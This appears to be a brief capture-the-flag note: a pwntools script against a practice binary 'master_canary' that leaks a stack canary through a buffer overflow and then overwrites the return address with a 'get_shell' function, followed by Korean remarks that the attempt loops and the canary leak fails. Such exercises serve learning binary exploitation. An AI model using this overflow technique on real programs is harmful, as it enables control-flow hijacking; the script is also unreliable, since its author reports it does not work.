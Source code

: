 
<img width="1424" height="1066" alt="image" src="https://github.com/user-attachments/assets/c5ded89f-d637-4ffc-9699-088a5c77c029" />



```python
from pwn import *

p = process('./master_canary')
e = ELF('./master_canary')

getshell_addr = e.symbols['get_shell']

p.sendlineafter(b'> ', b'1')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'144')

p.recvuntil(b'Data: ')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'144')

payload = b'A'*136 + b'B' 
p.send(payload)

p.recvuntil(b'B')
leaked = p.recv(7)
canary = u64(b'\x00' + leaked)

p.sendlineafter(b'> ', b'3')

payload2 = b'A'*40
payload2 += p64(canary)
payload2 += b'B'*8
payload2 += p64(getshell_addr)

p.sendlineafter(b'comment: ', payload2)

p.interactive()

```


-> 실패 무한 반복  
-> canary leak 에서 오류 

